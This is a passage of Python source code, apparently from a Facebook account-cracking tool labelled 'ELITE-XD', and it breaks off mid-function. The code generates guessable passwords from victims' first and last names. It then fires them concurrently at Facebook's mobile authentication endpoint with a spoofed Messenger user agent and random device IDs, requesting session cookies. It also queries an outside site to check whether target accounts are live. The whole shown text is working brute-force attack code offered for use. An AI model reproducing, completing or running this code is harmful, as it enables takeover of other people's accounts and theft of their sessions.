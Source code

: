             if len(First) >4:
                psslist.append(First.lower()+"@")
                #psslist.append(First+"@")
            else:pass
            psslist.append(First.lower()+Last.lower())
            psslist.append(First.lower()+" "+Last.lower())
            psslist.append(First.lower()+Last.lower()+"123")
            psslist.append(First.lower()+Last.lower()+"1234")
            psslist.append(Last.lower()+"123")
            psslist.append(Last.lower()+"1234")
            psslist.append(First+" "+Last)
            
            if md in ["1","01"]:
                pool.submit(file_subb,Gmail,psslist)
            else:
                pool.submit(normal,Gmail,psslist)






def live_ck(uid):
    Heron=requests.get(f"https://thanhlike.com/modun/tool/get_facebook.php?type=checklive&id={uid}").text
    data=str(Heron)
    if "live" == data.lower():
        return "Alive"
    else:
        return "death"


def file_subb(Gmail,psslist):
    global oks,done
    sys.stdout.write(f"\r  \033[38;5;46m[ELITE-XD] {done}|{str(len(oks))}\r");sys.stdout.flush()
    session=requests.Session()
    try:
        for ps in psslist:
            user_agent="Dalvik/2.1.0 (Linux; U; Android 9; moto e6 Build/PCB29.73-65-3) [FBAN/Orca-Android;FBAV/235.1.0.9.122;FBPN/com.facebook.orca;FBLC/en_US;FBBV/175782189;FBCR/Metro by T-Mobile;FBMF/motorola;FBBD/motorola;FBDV/moto e6;FBSV/9;FBCA/armeabi-v7a:armeabi;FBDM/{density=2.0,width=720,height=1344};FB_FW/1;]"
            data={
            'adid': str(uuid.uuid4()),
            'format': 'json',
            'device_id': str(uuid.uuid4()),
            'email': Gmail,
            'password': ps,
            'generate_analytics_claims': '1',
            'community_id': '',
            'cpl': 'true',
            'try_num': '1',
            'family_device_id': str(uuid.uuid4()),
            'credentials_type': 'password',
            'source': 'login',
            'error_detail_type': 'button_with_disabled',
            'enroll_misauth': 'false',
            'generate_session_cookies': '1',
            'generate_machine_id': '1',
            'currently_logged_in_userid': '0',
            'locale': 'en_GB',
            'client_country_code': 'GB',
            'fb_api_req_friendly_name': 'authenticate'}
            head={
            'User-Agent': user_agent,
            'Accept-Encoding':  'gzip, deflate',
            'Accept': '*/*',
            'Connection': 'keep-alive',
